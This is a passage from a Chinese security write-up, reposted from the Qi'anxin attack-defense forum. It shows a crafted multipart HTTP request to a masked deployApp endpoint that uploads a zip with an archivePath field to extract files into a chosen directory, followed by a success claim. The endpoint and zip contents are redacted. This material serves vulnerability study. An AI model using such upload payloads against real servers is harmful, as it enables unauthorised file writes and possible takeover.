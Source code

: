 于是构造payload为  
```
POST /xxxxx/xxxx/application/deployApp HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNotThoE1rFKMKxp5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1499

------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="appName"

12123123
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="deployInServer"

false
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="clientFile"; filename="test2.zip"
Content-Type: application/x-zip-compressed

PK...
------WebKitFormBoundaryNotThoE1rFKMKxp5
Content-Disposition: form-data; name="archivePath"

------WebKitFormBoundaryNotThoE1rFKMKxp5

...

------WebKitFormBoundaryNotThoE1rFKMKxp5--

```  
  
bp直接读取zip可能会乱码保存，这里用yakit提供的file标签  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL8d6ibUqT4Xad35RYOjUPJeFBEVRNaGUicLJrmCfJRn7Z4PI22BhH9bGibK8FaesID0AHMzZQV1dibd1g/640?wx_fmt=png&from=appmsg "")  
  
成功解压到指定目录  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL8d6ibUqT4Xad35RYOjUPJeFwpkqGUTIoqd7QsHWn6FujYlrWbiawrNAyyhRDl1ZfetOu0z6gtHzXNw/640?wx_fmt=png&from=appmsg "")  
  
> **文章来源：奇安信攻防社区**  
> **链接：https://forum.butian.net/share/2700**  
> 作者：Duck  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
